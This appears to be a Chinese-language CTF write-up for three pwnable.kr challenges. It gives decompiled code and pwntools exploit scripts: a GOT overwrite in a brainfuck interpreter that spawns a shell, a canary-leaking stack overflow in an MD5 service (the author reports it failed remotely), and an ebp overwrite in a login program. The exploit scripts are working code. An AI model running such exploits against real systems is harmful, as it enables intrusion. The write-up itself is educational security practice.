






BrainFuck
题目给了一个二进制文件和libc。

用IDA打开二进制文件，可以看到代码逻辑非常的简单。1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
53
54
55
56
57
58
59
60
61int __cdecl main(int argc, const char **argv, const char **envp)
{
int result; // eax@4
int v4; // edx@4
size_t i; // [sp+28h] [bp-40Ch]@1
int v6; // [sp+2Ch] [bp-408h]@1
int v7; // [sp+42Ch] [bp-8h]@1
v7 = *MK_FP(__GS__, 20);
setvbuf(stdout, 0, 2, 0);
setvbuf(stdin, 0, 1, 0);
p = (int)&tape;
puts("welcome to brainfuck testing system!!");
puts("type some brainfuck instructions except [ ]");
memset(&v6, 0, 0x400u);
fgets((char *)&v6, 1024, stdin);
for ( i = 0; i < strlen((const char *)&v6); ++i )
do_brainfuck(*((_BYTE *)&v6 + i));
result = 0;
v4 = *MK_FP(__GS__, 20) ^ v7;
return result;
}
int __cdecl do_brainfuck(char a1)
{
int result; // eax@1
_BYTE *v2; // ebx@7
result = a1;
switch ( a1 )
{
case '>':
result = p++ + 1;
break;
case '<':
result = p-- - 1;
break;
case '+':
result = p;
++*(_BYTE *)p;
break;
case '-':
result = p;
--*(_BYTE *)p;
break;
case '.':
result = putchar(*(_BYTE *)p);
break;
case ',':
v2 = (_BYTE *)p;
result = getchar();
*v2 = result;
break;
case '[':
result = puts("[ and ] not supported.");
break;
default:
return result;
}
return result;
}
首先输入一段字符串，根据不同的字符对指针p做相应的操作。当字符为’.’和’,’时，我们可以对指针p的指向的位置做读写操作，而当字符为’>’和’<’时，我们又可以任意的移动指针p，所以很明显，我们已经有了任意内存读写的能力。
比较容易想到的思路是修改got.plt使我们能够调用到system(“/bin/sh/“),刚好在main函数中就有这样一个过程是我们能很容易的构造system(“/bin/sh”)。
如上图我们可以修改memset的地址让其调用gets，然后修改fgets调用system。但是我们修改的过程是在这段代码完成之后，所以为了再调用到这段代码，我们还需要修改putchar或者getchar的got.plt值让其再次进入main函数。
完整的exp如下：1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26from pwn import *
libc = ELF("./bf_libc.so")
p = remote("pwnable.kr", 9001)
p.recvline_startswith("type")
payload = '<'*(0x0804A0A0-0x0804A010)
payload += '.>'*4
payload += '<'*4 + ',>'*4
payload += '<'*4 + '>'*(0x0804A02C-0x0804A010)
payload += ',>'*4
payload += ',>'*4
payload += '.'
p.sendline(payload)
addr_fgets = p.recvn(4)[::-1].encode('hex')
addr_system = int(addr_fgets, 16) - libc.symbols['fgets'] + libc.symbols['system']
addr_gets = int(addr_fgets, 16) - libc.symbols['fgets'] + libc.symbols['gets']
p.send(struct.pack('I', addr_system))
p.send(struct.pack('I', addr_gets))
p.send(struct.pack('I', 0x08048671))
p.sendline('/bin/sh')
p.interactive()
执行exp，就可以得到flag了。

Md5 Calculator
题目描述。
拿到程序后用IDA反编译看下，可以发现逻辑很简单，下面是主要的几个函数。
1 | int __cdecl main(int argc, const char **argv, const char **envp) |
程序首先给出一个随机的验证码，然后读入一段字符串，后面对这段这字符串base64解码后求md5值并输出。漏洞处在process_hash函数中，可以看到这里首先读入了1024个字节的数据，然后将其复制到v3数组中，但是v3数组的大小只有0x200也就是512个字节，所以产生了栈溢出。
栈溢出的利用并没有太大的难度，但是要注意的是这道题开启了stack canary。所以首先我们要得到canary值，还好这里的my_hash函数中使用了canary值来计算验证码，所以我们可以根据这个验证码来获取canary值。1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
int main(int argc, char **argv){
assert(argc==3);
int t = atoi(argv[1]);
int m = atoi(argv[2]);
srand(t);
int i=0;
int rands[8];
for(i=0;i<=7;i++){
rands[i]=rand();
}
int a = rands[1]+rands[2]-rands[3]+rands[4]+rands[5]-rands[6]+rands[7];
m -= a;
printf("%x\n",m);
return 0;
}
接下来就是写exp了。1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23from pwn import *
from base64 import b64encode
import os
system = 0x8049187
buf = 0x804B0E0
t = int(time.time())
p = remote('pwnable.kr',9002)
p.recvuntil('captcha : ')
captcha = int(p.recvline()[:-1])
p.sendline(str(captcha))
canary = '0x' + os.popen('./hashc {} {}'.format(str(t), captcha)).read()
canary = int(canary, 16)
payload = 'A' * 512 + p32(canary) + 'A' * 12
payload += p32(system)
payload += p32(0x8048a00) + p32(0x0804B0E0 + 540*4/3)
p.sendline(b64e(payload) + '/bin/sh\0')
p.interactive()
这个脚本我在本地打没有问题，但是往服务器上打就不行，是stack canary的问题，服务器上的时间和我这里得到的时间不同，但是我使用服务器上的时间试了下也不行，所以这道题暂时没有拿到flag。
Simple Login

非常简单的一道溢出题。程序逻辑也很简单，输入一段字符串，经过base64解码后，在auth函数中验证。1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38int __cdecl main(int argc, const char **argv, const char **envp)
{
int v4; // [sp+18h] [bp-28h]@1
__int16 v5; // [sp+1Eh] [bp-22h]@1
unsigned int v6; // [sp+3Ch] [bp-4h]@1
memset(&v5, 0, 0x1Eu);
setvbuf(stdout, 0, 2, 0);
setvbuf(stdin, 0, 1, 0);
printf("Authenticate : ");
_isoc99_scanf("%30s", &v5);
memset(&input, 0, 0xCu);
v4 = 0;
v6 = Base64Decode((int)&v5, &v4);
if ( v6 > 0xC )
{
puts("Wrong Length");
}
else
{
memcpy(&input, v4, v6);
if ( auth(v6) == 1 )
correct();
}
return 0;
}
_BOOL4 __cdecl auth(int a1)
{
char v2; // [sp+14h] [bp-14h]@1
char *s2; // [sp+1Ch] [bp-Ch]@1
int v4; // [sp+20h] [bp-8h]@1
memcpy(&v4, &input, a1);
s2 = calc_md5(&v2, 12);
printf("hash : %s\n", s2);
return strcmp("f87cd601aa7fedca99018a8be88eda34", s2) == 0;
}
在auth函数的第一行，v4变量的地址是bp-8h，而我们可以输入的字符长度最长可以是12字节，所以很明显我们可以溢出4个字节覆盖ebp。在main函数结尾可以看到
``’cpp
.text:08049424 leave
.text:08049425 retn1
2
3
4
5
leave指令相当于:
```asm
mov esp, ebp
pop ebp
ret指令相当于1
pop eip
这里将栈顶的地址赋给eip，所以我们就可以控制程序的流程。虽然并没有办法在栈上执行shellcode，不过这个程序中的input变量是一个全局变量，所以我们可以直接将system函数的地址写到input中，然后将eip覆盖为input的地址。
通过ida可以查看到input和system的地址：


下面就可以执行shellcode了。
